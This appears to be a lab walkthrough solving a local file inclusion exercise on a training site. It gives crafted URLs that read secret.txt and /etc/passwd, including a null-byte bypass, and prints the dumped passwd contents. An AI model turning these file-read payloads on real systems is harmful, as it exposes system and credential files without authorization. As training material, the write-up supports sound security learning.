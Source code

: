 #  XSS Rat Lab 
## URL :- `https://hackxpert.com/labs/LFI/`

Solutions -->

![image](https://user-images.githubusercontent.com/60841283/151112457-622654ab-b924-4df9-9623-94a5ef2337ee.png)

1st Search Box:

Enter : `test.txt`

Result : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=test.txt&submit=submit&parent_id=0`

Contents : `testsdsgdgfd`

Visit : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=secret.txt&submit=submit&parent_id=0`

Contents : `You should not be seeing this!! This is a secret file!! `

Visit : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=/etc/passwd`

Content :

```html
<div class="comment">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
landscape:x:111:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:112:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:113:116:MySQL Server,,,:/nonexistent:/bin/false
debian-tor:x:114:118::/var/lib/tor:/bin/false
ftp:x:115:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
Training:x:1000:1000::/var/www/html/Training/:/usr/sbin/nologin
nagios:x:1001:1001::/home/nagios:/bin/sh
toof:x:1002:1003::/home/toof:/bin/bash
openldap:x:116:120:OpenLDAP Server Account,,,:/var/lib/ldap:/bin/false
dnsmasq:x:117:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
brandon:x:1003:1004:,,,:/home/brandon:/bin/bash
mayank_pandey01:x:1004:1005::/var/www/html/labs/mayank_pandey01:/usr/sbin/nologin
</div>
```

2nd Search box 

Visit : `https://hackxpert.com/labs/LFI/endPoint-2.php?field2_name=/etc/passwd%00&submit=submit&parent_id=0`

Output :
```html
<div class="comment">root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
  --snip--
  --snip--
brandon:x:1003:1004:,,,:/home/brandon:/bin/bash
mayank_pandey01:x:1004:1005::/var/www/html/labs/mayank_pandey01:/usr/sbin/nologin
```

